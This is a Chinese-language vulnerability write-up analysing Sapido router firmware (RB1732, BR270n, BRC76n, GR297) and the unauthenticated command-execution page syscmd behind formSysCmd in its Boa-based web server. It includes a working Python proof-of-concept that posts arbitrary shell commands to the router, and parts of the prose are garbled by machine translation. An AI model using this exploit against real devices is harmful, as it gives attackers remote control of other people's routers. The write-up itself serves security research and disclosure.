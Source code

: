 # Sapido多款路由器命令执行漏洞&突破

# 一、漏洞简介

## 二、漏洞影响

BR270n-v2.1.03

BRC76n-v2.1.03

GR297-v2.1.3

RB1732-v2.0.43

之前的版本存在命令执行漏洞

## 三、复现过程

### 0x01 固件环境模拟

![image](/Users/aresx/Documents/VulWiki/IOT%E5%AE%89%E5%85%A8/Sapido/.resource/Sapido%E5%A4%9A%E6%AC%BE%E8%B7%AF%E7%94%B1%E5%99%A8%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E&%E7%AA%81%E7%A0%B4/media/1-20201014111751161.png)

### 0x02 binwalk解压固件

![image](/Users/aresx/Documents/VulWiki/IOT%E5%AE%89%E5%85%A8/Sapido/.resource/Sapido%E5%A4%9A%E6%AC%BE%E8%B7%AF%E7%94%B1%E5%99%A8%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E&%E7%AA%81%E7%A0%B4/media/2-20201014111751167.png)

![image](/Users/aresx/Documents/VulWiki/IOT%E5%AE%89%E5%85%A8/Sapido/.resource/Sapido%E5%A4%9A%E6%AC%BE%E8%B7%AF%E7%94%B1%E5%99%A8%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E&%E7%AA%81%E7%A0%B4/media/3-20201014111751162.png)

### 0x03 查看web容器

![image](/Users/aresx/Documents/VulWiki/IOT%E5%AE%89%E5%85%A8/Sapido/.resource/Sapido%E5%A4%9A%E6%AC%BE%E8%B7%AF%E7%94%B1%E5%99%A8%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E&%E7%AA%81%E7%A0%B4/media/4-20201014111751163.png)

对于嵌入式设备而言，很多服务都是移植开源的，`/etc/init.d`文件夹下是路由器启动时的加载项，在这些文件中可以看到很多的启动服务等，但是在这里我没有发现`web`容器的启动项，猜测可能厂商进行了二次开发

### 0x04 查找http服务模块

![image](/Users/aresx/Documents/VulWiki/IOT%E5%AE%89%E5%85%A8/Sapido/.resource/Sapido%E5%A4%9A%E6%AC%BE%E8%B7%AF%E7%94%B1%E5%99%A8%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E&%E7%AA%81%E7%A0%B4/media/5-20201014111751171.png)

在这里可以看到很多关于`http`的，我们不去关注`web`网页出现的。因为我们想要知道这款路由器的`web`容器是其中，所以我们把重点放在前面的`elf`文件处，在这里我们看到一个`cm`的`elf`文件，如果知道开源的`web`服务器`boa`可能猜到一些，下面就是`boa`的架构

![image](/Users/aresx/Documents/VulWiki/IOT%E5%AE%89%E5%85%A8/Sapido/.resource/Sapido%E5%A4%9A%E6%AC%BE%E8%B7%AF%E7%94%B1%E5%99%A8%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E&%E7%AA%81%E7%A0%B4/media/6-20201014111751178.png)

可以这里清晰的看到`web`层的英文如何状语从句：底层通过`boa`进行交互的。那么对于不知道的容器我们又该如何去分析呢？继续我们去分析剩下的`elf`程序，名字通过逐个状语从句：我们分析在`sysconf`程序中发现了`http`请求的处理方式，使用`ghidra`来分析`sysconf`

![image](/Users/aresx/Documents/VulWiki/IOT%E5%AE%89%E5%85%A8/Sapido/.resource/Sapido%E5%A4%9A%E6%AC%BE%E8%B7%AF%E7%94%B1%E5%99%A8%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E&%E7%AA%81%E7%A0%B4/media/7-20201014111751179.png)

通过全文搜索定位`http`到关键函数，在这里我们发现了一个关键的函数`apmib_get`通过猜测也能大概猜到这是一个关于获取的函数，通过`google`可以搜索到这个函数，会发现这个函数是关于`web`开源服务器的`boa`用到的函数，到那么这里我们就已经确认这款路由器的`web`容器的英文`boa`了。既然已经知道了`boa`，肯定那么这个知道有框架一个关键的文件`syscmd.htm`文件，可以执行系统命令，由于但是这款路由器的英文`asp`写的所以我们只进行检索`syscmd`

![image](/Users/aresx/Documents/VulWiki/IOT%E5%AE%89%E5%85%A8/Sapido/.resource/Sapido%E5%A4%9A%E6%AC%BE%E8%B7%AF%E7%94%B1%E5%99%A8%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E&%E7%AA%81%E7%A0%B4/media/8-20201014111751179.png)

这里可以发现两个文件，一个`elf`文件，一个`asp`文件，打开`asp`文件

![image](/Users/aresx/Documents/VulWiki/IOT%E5%AE%89%E5%85%A8/Sapido/.resource/Sapido%E5%A4%9A%E6%AC%BE%E8%B7%AF%E7%94%B1%E5%99%A8%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E&%E7%AA%81%E7%A0%B4/media/9-20201014111751179.png)

在这里可以抛光页面可以执行系统命令

### 0x05 通过url访问指定页面

![image](/Users/aresx/Documents/VulWiki/IOT%E5%AE%89%E5%85%A8/Sapido/.resource/Sapido%E5%A4%9A%E6%AC%BE%E8%B7%AF%E7%94%B1%E5%99%A8%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E&%E7%AA%81%E7%A0%B4/media/10-20201014111751181.png)

发现可以执行系统命令，那么这里又是如何处理的呢？

通过上面的`asp`文件可以知道，对于输入的命令处理应该和`formSysCmd`有关联，这里我们进行`grep`搜索

![image](/Users/aresx/Documents/VulWiki/IOT%E5%AE%89%E5%85%A8/Sapido/.resource/Sapido%E5%A4%9A%E6%AC%BE%E8%B7%AF%E7%94%B1%E5%99%A8%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E&%E7%AA%81%E7%A0%B4/media/11-20201014111751276.png)

可以看到一个`webs`的`elf`文件，那么可以猜测这里可能就是`syscmd`执行的临时文件了

### 0x06 分析webs文件

![image](/Users/aresx/Documents/VulWiki/IOT%E5%AE%89%E5%85%A8/Sapido/.resource/Sapido%E5%A4%9A%E6%AC%BE%E8%B7%AF%E7%94%B1%E5%99%A8%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E&%E7%AA%81%E7%A0%B4/media/12-20201014111751187.png)

![image](/Users/aresx/Documents/VulWiki/IOT%E5%AE%89%E5%85%A8/Sapido/.resource/Sapido%E5%A4%9A%E6%AC%BE%E8%B7%AF%E7%94%B1%E5%99%A8%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E&%E7%AA%81%E7%A0%B4/media/13-20201014111751190.png)

上面就是整个命令执行的逐步实现方式了，第一个图片可以看到使用`system`函数执行输入的系统命令，第二个图片可以裁剪将执行的结果通过`cat`输入到`/web/obama.dat`文件中，最后将`obama.dat`中的内容输入到`web`界面的文本框里。

### 0x07 poc

```
# Exploit Title: SAPIDO RB-1732 command line execution
# Date: 2019-6-24
# Exploit Author: k1nm3n.aotoi
# Vendor Homepage: http://www.sapido.com.tw/
# Software Link: http://www.sapido.com.tw/CH/data/Download/firmware/rb1732/tc/RB-1732_TC_v2.0.43.bin
# Version: RB-1732 V2.0.43 
# Tested on: linux


import requests
import sys

def test_httpcommand(ip, command):
   my_data = {'sysCmd': command, 'apply': 'Apply', 'submit-url':'/syscmd.asp', 'msg':''}
   r = requests.post('http://%s/goform/formSysCmd' % ip, data = my_data)
   content = r.text
   content = content[
     content.find('<textarea rows="15" name="msg" cols="80" wrap="virtual">')+56:
     content.rfind('</textarea>')]
   return content

print test_httpcommand(sys.argv[1], " ".join(sys.argv[2:]))
```

### 0x08 运行截图

![image](/Users/aresx/Documents/VulWiki/IOT%E5%AE%89%E5%85%A8/Sapido/.resource/Sapido%E5%A4%9A%E6%AC%BE%E8%B7%AF%E7%94%B1%E5%99%A8%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E&%E7%AA%81%E7%A0%B4/media/14-20201014111751194.png)

### 0x09 BR270n-v2.1.03命令执行突破

这个原理和RB1732差不多，只不过访问的页面变成了`syscmd.htm`了

![image](/Users/aresx/Documents/VulWiki/IOT%E5%AE%89%E5%85%A8/Sapido/.resource/Sapido%E5%A4%9A%E6%AC%BE%E8%B7%AF%E7%94%B1%E5%99%A8%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E&%E7%AA%81%E7%A0%B4/media/15-20201014111751195.png)

### 0x010 BRC76n-v2.1.03命令执行漏洞

![image](/Users/aresx/Documents/VulWiki/IOT%E5%AE%89%E5%85%A8/Sapido/.resource/Sapido%E5%A4%9A%E6%AC%BE%E8%B7%AF%E7%94%B1%E5%99%A8%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E&%E7%AA%81%E7%A0%B4/media/16-20201014111751196.png)

### 0x011 GR297-v2.1.3命令执行漏洞

![image](/Users/aresx/Documents/VulWiki/IOT%E5%AE%89%E5%85%A8/Sapido/.resource/Sapido%E5%A4%9A%E6%AC%BE%E8%B7%AF%E7%94%B1%E5%99%A8%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E&%E7%AA%81%E7%A0%B4/media/17-20201014111751197.png)

### 0x012 总结

BR270n，RB1732命令执行有个重置就是登陆路由器，可以进行信息的同步获取用户名和密码，而且又有很多路由器使用的还是其他用户名和密码，GR297，BRC76n则不需要进行登陆

## 参考链接

> [http://lab.xinruisec.com/2019/09/05/Sapido%E5%A4%9A%E6%AC%BE%E8%B7%AF%E7%94%B1%E5%99%A8%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/](http://lab.xinruisec.com/2019/09/05/Sapido多款路由器命令执行漏洞/)